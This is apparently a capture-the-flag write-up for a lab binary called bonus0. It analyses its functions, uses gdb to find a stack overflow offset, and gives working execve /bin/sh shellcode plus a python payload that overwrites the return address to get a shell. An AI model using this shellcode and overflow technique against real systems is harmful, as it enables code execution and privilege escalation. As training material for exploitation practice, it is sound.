 ## FlagBonus0 README: Finding FlagBonus0
LE = little Endian

So we have 2 function p and pp and our main function.

**Main**
Create a buf of size 42
Call pp with our buff
and then call puts

**pp**
allocate 2 buffer src with 20 space and v3 with 28 spaces
call p with src and call p with v3.
copy src to the dest.
then add at the end this adress : 0x080486A4
return concatenation of dest and v3

**p**
allocate 4104 buffer and read stdin to the size 4096. Search for \n and replace it with \0 and copy what we have read for 20 caracteres in our param.

So let's try to put some value and inspect the stack :

(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x42424242: Input/output error.

0x42424242 in ?? ()


and we segfault with the second arguments. Let's try to find where :

Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09

Breakpoint 2, 0x0804855e in pp ()
(gdb) s
Single stepping until exit from function pp,
which has no line number information.

Breakpoint 1, 0x0804859d in pp ()
(gdb) s
Single stepping until exit from function pp,
which has no line number information.
0x080485b9 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAAaA00aA01aA02aA03aA04��� aA00aA01aA02aA03aA04���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x61333041: Input/output error.

0x61323041 in ?? ()
0x61323041 in text = a20A in LE so in normal it's A02a

So we figure it's 9 element after our input that we segfault. Now we can try to put an adress that will execute the shell.

To do that we are going to create a var env that will have our shellcode:
```Bash
export shellcode="`python -c 'print("\x90" * 30 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`"
```

we now need to find what's the adress for that we are going to use the getenv func and print his ptr.See env_variable_finder.c.
and for me here is the adress : 0xbfffff01 (in LE \x01\xff\xff\xbf).

So let's try to put many car we want as the first input and then 8 random char + \x01\xff\xff\xbf as our second input. Then cat it to let bash open.

To do that in bash it will look like this
```Bash
(python -c 'print("A" * 30)'; python -c 'print("B" * 9 + "\x01\xff\xff\xbf" + "A02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09")'; cat) | ./bonus0
```

and let s go we have our bash.
